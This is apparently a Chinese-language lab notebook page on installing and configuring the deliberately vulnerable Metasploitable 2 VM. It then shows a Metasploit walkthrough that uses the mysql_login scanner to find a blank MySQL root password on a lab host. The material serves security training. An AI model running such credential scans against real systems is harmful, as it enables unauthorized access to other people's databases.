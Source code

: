基于 Ubuntu 的系统靶场。

## 1. install

扫描虚拟机

![扫描虚拟机](./../../../../../images/Metasploitable_2/%E6%89%AB%E6%8F%8F%E8%99%9A%E6%8B%9F%E6%9C%BA.png)

升级此虚拟机

![升级此虚拟机](./../../../../../images/Metasploitable_2/%E5%8D%87%E7%BA%A7%E6%AD%A4%E8%99%9A%E6%8B%9F%E6%9C%BA.png)

创建此虚拟机的新克隆

![创建此虚拟机的新克隆](./../../../../../images/Metasploitable_2/%E5%88%9B%E5%BB%BA%E6%AD%A4%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E6%96%B0%E5%85%8B%E9%9A%86.png)

虚拟机名称

> metasploitable2

位置

> D:\documents\virtual machines\metasploitable2\metasploitable2-vm

**编辑虚拟机设置**

此虚拟机的内存

> 1 GB

处理器数量

> 1

每个处理器的内核数量

> 4

虚拟化引擎

> 虚拟化 Intel VT-X/EPT 或 AMD-V/RVI(V)

网络连接

> 桥接模式
>
> NAT

显示器

> 关闭加速 3D 图形

快照

> 拍摄新快照
>
> 确定

拍摄快照，命名为 `安装` 

## 2. init

**修改密码**

用户名

> msfadmin

密码

> msfadmin

修改 msfadmin 密码

```shell
msfadmin@metasploitable:~$ sudo passwd msfadmin
```

修改 root 密码

```shell
msfadmin@metasploitable:~$ sudo passwd root
```

重启，使用 root 登录

**配置网络**

配置网络接口参数

```shell
root@metasploitable:~# vim /etc/network/interfaces
```

```
 7  auto lo
 8  iface lo inet loopback
 
#iface eth0 inet dhcp
auto eth0
iface eth0 inet static
	address 192.168.1.19
	netmask 255.255.255.0
	broadcast 192.168.1.255
	gateway 192.168.1.1

#iface eth1 inet dhcp
auto eth1
iface eth1 inet static
	address 192.168.24.19
	netmask 255.255.255.0
	broadcast 192.168.24.255
```

修改 `dns` 服务器

```shell
root@metasploitable:~# vim /etc/resolv.conf
```

```
# Generated by NetworkManager
nameserver 8.8.8.8
nameserver 8.8.4.4
```

在 `hosts` 文件添加域名映射

```shell
root@metasploitable:~# vim /etc/hosts
```

```
192.168.1.13	kali-23.local
192.168.1.14	cent7-6.local
192.168.1.15	win10-22h2.local
192.168.1.16	win10-1903.local
192.168.1.17	win7-sp1.local
192.168.1.18	winxp-sp3.local
192.168.1.19	metasploitable2.local
192.168.24.20	svr08r2-sp1.local
192.168.1.22	rocky-9.local
```

重启网络服务并测试网络

```shell
┌──(root㉿kali)-[~]
└─# /etc/init.d/networking restart && ping ipinfo.io -c 3
```

关机，快照命名为 初始化 

## 3. use

### 3.1. 检测 mysql 空密码

运行 msf

```shell
┌──(root㉿kali)-[~]
└─# msfdb run
```

查找 mysql 登录相关的模块

```shell
msf6 > search mysql login
```

使用 auxiliary/scanner/mysql/mysql_login

```shell
msf6 > use 0
```

显示 options

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > show options
```

```shell
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
```

> 可以看到这个 exploit 可以检测 mysql 的空密码

设置 rhosts

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > set rhosts 192.168.1.56
```

运行

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > run
```

```shell
[+] 192.168.1.56:3306     - 192.168.1.56:3306 - Found remote MySQL version 5.0.51a
[+] 192.168.1.56:3306     - 192.168.1.56:3306 - Success: 'root:'
[*] 192.168.1.56:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 检测到 root 密码为空
>
> 需要黑客与目标的 mysql 版本兼容

---

Refrences

- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)